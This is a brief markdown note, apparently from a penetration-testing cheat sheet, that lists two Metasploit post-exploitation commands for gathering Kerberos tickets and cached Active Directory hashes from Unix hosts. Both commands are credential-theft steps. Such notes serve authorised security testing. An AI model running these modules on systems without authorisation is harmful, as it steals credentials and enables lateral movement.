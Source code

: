 # Kerberos Tickets

## Metasploit

```
msf > use post/multi/gather/unix_kerberos_tickets
```

```
msf > use post/multi/gather/unix_cached_ad_hashes
```